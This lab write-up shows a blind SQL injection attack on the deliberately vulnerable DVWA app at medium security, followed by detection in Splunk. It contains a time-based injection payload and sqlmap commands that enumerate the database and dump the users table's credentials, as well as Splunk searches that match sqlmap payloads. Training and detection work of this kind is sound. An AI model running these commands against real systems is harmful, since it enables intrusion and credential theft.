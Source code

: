 ##  Launching an Attack from Another PC in the LAN:

The Medium level uses a form of SQL injection protection with the function mysql_real_escape_string(). However, due to the SQL query not having quotes around the parameter, this does not fully protect the query from being altered. The text box has been replaced with a pre-defined dropdown list and uses POST to submit the form (see source code).

![image](https://github.com/user-attachments/assets/ba981869-abd4-4b40-9554-9be73e9f1330)

 This code tries to protect against SQL injection using `mysqli_real_escape_string()`. This function escapes special characters in the user input.

But there’s a mistake in the SQL query:

```sql
$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```
❌ The user input $id is not inside quotes — so attackers can still inject SQL if they use numbers or logical conditions.

so manyone can injecting something like:

```
1 AND SLEEP(5)
```
That becomes:

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 AND SLEEP(5);
This is a time-based blind SQL injection, and it works even though you escaped the input.
```

Attackers able to intercept and modify POST data using sqlmap tool .

You're targeting:

```
http://<ip>/DVWA/vulnerabilities/sqli_blind/
```

and the form sends a POST request with parameters like:

```
POST /DVWA/vulnerabilities/sqli_blind/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded

id=1&Submit=Submit
```

You want to inject a payload into id that proves SQLi is possible — ideally a time-based blind SQLi.

### Using sqlmap

```
sqlmap -u "http://<ip>/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=YOUR_SESSION_ID" \
--technique=BT \
--level=2 \
--risk=2 \
--batch
```

![image](https://github.com/user-attachments/assets/34b7fb18-ba9c-472b-84ba-e22b468c98c9)

The injection point was confirmed on the id parameter (POST), which is vulnerable to both Boolean-based (id=1 AND 1682=1682) and Time-based (id=1 AND (SELECT SLEEP(5))) blind SQL injection; the backend uses MySQL (MariaDB fork) on Apache 2.4.63 running Debian Linux, and despite being set to Medium security, it is still injectable.

Extract data from dvwa DB:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
--dbs
```

![image](https://github.com/user-attachments/assets/c1c996df-594e-4f5d-8753-bb806893604c)

Found Databases.

Extract Table & User Info:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa --tables
```

![image](https://github.com/user-attachments/assets/519e573b-d747-406e-9edf-c9be196d1315)

Listed tables in dvwa.

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa -T users --columns
```

Then list columns in the users table.

![image](https://github.com/user-attachments/assets/b8653499-fa81-467f-b511-9a710403f910)

Then dump usernames and passwords:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa -T users -C user,password --dump
```

![image](https://github.com/user-attachments/assets/782a129f-ae44-472a-a204-306fe512cdcf)
 
The attack was successful


## Next, we will detect the attack using Splunk

```
host=victim sourcetype="access-too_small" "sqlmap"
```

![image](https://github.com/user-attachments/assets/2b415a36-5af7-437b-a435-7986297bd40b)

From this, we can see that the sqlmap user-agent was used to perform the attack.


```
host=victim sourcetype="access-too_small" "sqlmap" id  SLEEP
```

![image](https://github.com/user-attachments/assets/6dbfb250-d3ec-4fc3-97fb-8b25513897e6)


 1. Time-based Blind SQL Injection Detected

The repeated use of PG_SLEEP(5) in payloads shows deliberate attempts to delay SQL responses:

Examples:

```sql
...AND 9814=(SELECT 9814 FROM PG_SLEEP(5))...
...;SELECT PG_SLEEP(5)--...
...SELECT 3841 FROM (SELECT(SLEEP(5)))...
```
This is a signature of time-based blind SQLi, where delays confirm conditional truth.

2. Automated Tool Used: sqlmap
Every log includes this user-agent:
`
"sqlmap/1.9.2#stable (https://sqlmap.org)"
`
This confirms that an attacker is automating the attack using sqlmap.

3. Vulnerable Parameter: id
Payloads are being injected into the URL parameter id=1, e.g.:

`/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit...`

This suggests the id parameter is not properly sanitized and is vulnerable to SQL injection.

5. Encoding Variants in Payloads
The logs show URL-encoded values, e.g.:

%3D → =

%28 → (

%29 → )

These confirm evasion techniques are being used to bypass simple string matching.


```
host=victim sourcetype="access-too_small" "sqlmap"
| rex field=_raw "^(?<clientip>\d{1,3}(?:\.\d{1,3}){3})"
| rex field=_raw "\"(?:GET|POST) (?<uri_path>[^\s]+)"
| rex field=_raw "\"(?<useragent>sqlmap[^\"]*)\""
| table _time, clientip, host, useragent, uri_path
```

![image](https://github.com/user-attachments/assets/488144da-c2f7-49ce-b445-cd24ceb4b881)

## 🧾 Summary Table

| Finding           | Details                                                |
|-------------------|--------------------------------------------------------|
| **Attack Type**   | Time-Based Blind SQL Injection                         |
| **Tool Used**     | sqlmap/1.9.2                                           |
| **Vulnerable Param** | `id`                                                |
| **Injection Method** | `SLEEP(5)`, conditional `SELECT`s, nested subqueries |
| **Encoding Technique** | URL-encoding to hide SQLi characters             |







